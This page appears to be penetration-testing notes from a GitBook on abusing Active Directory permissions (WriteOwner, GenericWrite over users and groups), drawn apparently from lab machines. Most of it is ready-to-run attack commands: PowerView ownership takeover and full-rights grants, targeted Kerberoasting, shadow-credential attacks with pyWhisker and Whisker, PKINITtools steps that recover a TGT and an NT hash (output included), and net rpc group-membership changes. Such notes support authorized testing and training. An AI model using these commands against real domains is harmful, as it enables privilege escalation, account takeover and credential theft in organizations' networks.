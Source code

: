 # Abusing Active Directory ACLs/ACEs

## "WriteOwner" abuse

We have two account "Ryan" and "CA\_SVC".

<figure><img src="../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

As you can see, ryan has WriteOwner privilege on "sv\_svc" AD account.

### **Set Owner with All Rights** <a href="#dc7f" id="dc7f"></a>

```powershell
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'ca_svc' -OwnerIdentity 'ryan'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
```

Check with this command:

{% code title="" overflow="wrap" %}
```powershell
# check SID of ryan
Get-DomainUser | Where-Object { $_.Name -like "*ryan*" } | Select-Object Name, Objectsid
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

{% code title="" overflow="wrap" %}
```powershell
# check if ryan's SID there is in SecurityIdentifier field of ca_svc account
Get-DomainObjectAcl -Identity 'ca_svc' | Where-Object { $_.ActiveDirectoryRights -eq 'GenericAll' }
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Reset Password

{% content-ref url="forcechangepassword-rights.md" %}
[forcechangepassword-rights.md](forcechangepassword-rights.md)
{% endcontent-ref %}



### Reources

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

## "GenericWrite" over a user abuse.

The GenericWrite privilege access grants you the ability to write to any non-protected attribute on the target object, including "members" for a gourp, and "serviceprincipalnames" for a user.

This means that that it is possible to perform a `kerberstoasting attack` or `Shadow Credentials Attack` from the user with this priv to the writable user.

<figure><img src="../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

### Kerberoast attack

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" overflow="wrap" %}
```bash
./targetedKerberoast.py --dc-ip '192.168.1.7' -v -d 'ignite.local' -u 'radha' -p 'Password@1'
```
{% endcode %}

#### Clock skew too great error

The `KRB_AP_ERR_SKEW(Clock skew too great)` error indicates that we have to syncronize the clock of out session with the clock of the AD.

To do this we can use the `ntpdate`tool:

```bash
sudo apt install ntpsec-ntpdate
```

```bash
sudo ntpdate 10.10.11.42
```

{% hint style="danger" %}
If we are in kali linux we also disable the auto ntp-sync with this command:

`timedatectl set-ntp 0`
{% endhint %}

### Shadow Credentials Attack (From Kali)

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/pywhisker
```
{% endcode %}

{% code title="" overflow="wrap" %}
```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Now we have obtained the password for pfx file and the pfx file, using the `gettgtpkinit.py` tool to extract TGT ticket.

{% code title="Installation" %}
```bash
git clone https://github.com/dirkjanm/PKINITtools
```
{% endcode %}

{% code overflow="wrap" %}
```bash
cd PKINITtools

python gettgtpkinit.py -cert-pfx file.pfx -pfx-pass password -cert-pem file_cert.pem -key-pem file_priv.pem -dc-ip 10.10.11.42 DOMAIN/USER USER.ccache

# output
2025-05-29 00:01:47,532 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-29 00:01:47,561 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-29 00:01:57,426 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-29 00:01:57,426 minikerberos INFO     f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721 # <---------
INFO:minikerberos:f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721
2025-05-29 00:01:57,428 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```
{% endcode %}

Set the **KRB5CCNAME** environment variable to point to the previously generated **`.ccache`** file

```bash
export KRB5CCNAME=/PATH/TO/PKINITtools/USER.ccache
```

Use `getnthash.py` tool to extract the hash from TGT ticket

{% code overflow="wrap" %}
```bash
python getnthash.py -key KEY_IN_THE_ABOVE_OUTPUT DOMAIN/USER

# output
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```
{% endcode %}



### Shadow Credentials Attack (From powershell)

copy this file on the target machine:

```bash
locate Whisker.exe

/opt/SharpCollection/NetFramework_4.7_Any/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x64/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x86/Whisker.exe
```

With a evil-winrm session we can use "upload" function

```
upload Whisker.exe
```

Execute the program

```
Whisker.exe list /target:TARGET_USER
```

```
Whisker.exe add /target:TARGET_USER
```

<figure><img src="../../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Now upload the `Rubeus.exe` program and execute the command from Whisker output.



## "GenericWrite" over a group abuse.

GenericWrite to a group allows you to directly modify group membership of the group.

<figure><img src="../../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

### Add user to the other group

The command is based on the above example, and it add a user into a other group.

{% code overflow="wrap" %}
```bash
net rpc group addmem "DEVELOPERS" levi.james -U puppy.htb/levi.james%'Password@1' -S DC_IP
```
{% endcode %}

After running the command, run the following command to view the group members and check whether the previous command worked.

{% code overflow="wrap" %}
```bash
net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'Passwprd@1' -S DC_IP
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>



### Resources

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials" %}
